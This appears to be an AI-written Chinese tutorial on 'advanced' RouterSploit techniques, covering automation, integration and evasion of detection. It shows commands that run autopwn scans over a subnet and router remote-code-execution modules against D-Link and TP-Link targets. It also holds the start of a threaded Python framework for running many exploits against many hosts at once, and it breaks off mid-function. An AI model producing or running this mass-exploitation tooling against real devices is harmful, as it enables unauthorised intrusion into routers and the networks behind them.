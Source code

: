 
好的，现在我们来探讨 **RouterSploit 的高级玩法**。这些技术超越了基础使用，涉及自动化、集成、规避检测和自定义开发等高级主题。

---

## 一、自动化与批量化操作

### 1. 命令行非交互模式

```bash
# 单命令执行
python3 rsf.py -m "scanners/autopwn" -s "target 192.168.1.0/24" -s "threads 20" -s "run"

# 批量执行多个模块
python3 rsf.py -m "exploits/routers/dlink/dir_8xx_rce" -s "target 192.168.1.1" -s "run"
python3 rsf.py -m "exploits/routers/tplink/archer_c60_rce" -s "target 192.168.1.2" -s "run"
```

### 2. 自动化脚本框架

```python
#!/usr/bin/env python3
from routersploit.core.exploit import exploits
import threading
import time

class AdvancedRouterSploit:
    def __init__(self):
        self.results = {}
        self.lock = threading.Lock()
    
    def mass_exploit(self, target_list, exploit_list):
        """批量利用框架"""
        threads = []
        
        for target in target_list:
            for exploit_path in exploit_list:
                thread = threading.Thread(
                    target=self._run_exploit,
                    args=(target, exploit_path)
                )
                threads.append(thread)
                thread.start()
                
                # 控制并发数量
                if len(threads) >= 10:
                    for t in threads:
                        t.join()
                    threads = []
        
        for t in threads:
            t.join()
    
    def _run_exploit(self, target, exploit_path):
        try:
            exploit = exploits().get_exploit(exploit_path)
            exploit.target = target
            
            # 设置超时
            import signal
            def timeout_handler(signum, frame):
                raise TimeoutError()
            
            signal.signal(signal.SIGALRM, timeout_handler)
            signal.alarm(30)  # 30秒超时
```